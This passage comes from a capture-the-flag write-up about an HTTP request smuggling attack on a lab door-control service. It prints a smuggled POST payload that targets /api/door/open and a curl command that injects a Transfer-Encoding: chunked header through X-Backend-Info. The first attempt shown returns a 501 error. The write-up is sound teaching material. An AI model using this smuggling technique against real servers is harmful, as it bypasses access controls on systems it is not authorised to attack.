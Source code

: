 ```python
    return Response(response.text, status=response.status_code)
```

This seems interesting. What does the HTTP header field `X-Backend-Info` do? It is loaded from the original request and passed without checks to the backend as header fields together with `raw_request` being filled with the original request's unchecked data.

## Approach

Let's recap what we have identified so far.

- We need to somehow trigger a door open request to the backend server for door with id 17 to grab the flag.
- The frontend's door open endpoint would do that, if we were to supply the correct randomly generated pin - which we assume we can't guess.
- The frontend's status endpoint will send some unchecked user provided data to the backend status endpoint (`X-Backend-Info` from HTTP POST header and all of the body).

The latter seems to be a right spot to dig deeper on. It pretty much smells like being vulnerable to HTTP request smuggling.

## Creating the Exploit

What [HTTP request smuggling](https://portswigger.net/web-security/request-smuggling) basically does is to attempt to send several HTTP requests (a sequence) packed into one using the HTTP header field `Transfer-Encoding` with the value `chunked`.

With this transfer encoding, the message body can comprise several requests (chunks).

- Each chunk begins with a line containing only the length in hexadecimal.
- Then follows the chunk contents

We can attempt to make the frontend server pass two chunked HTTP requests to the backend server.

Let's prepare the payload.

```console
$ cat smuggled_request.txt
0

POST /api/door/open HTTP/1.1
Host: 127.0.0.1:5001
Content-Length: 10
Accept: */*
Content-Type: application/x-www-form-urlencoded
Cookie: uid=7ba2909d5bc841ccb4c18dcbc3759f06
Connection: close

door_id=17
```

Let's send this to the locally running frontend web service via curl.

```console
$ curl -X POST -H 'X-Backend-Info: {"Transfer-Encoding": "chunked"}' --cookie "uid=7ba2909d5bc841ccb4c18dcbc3759f06" --data-binary @smuggled_request.txt --proxy "127.0.0.1:8080" http://172.16.239.137:5000/api/status
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>501 Not Implemented</title>
<h1>Not Implemented</h1>
<p>The server does not support the action requested by the browser.</p>
```
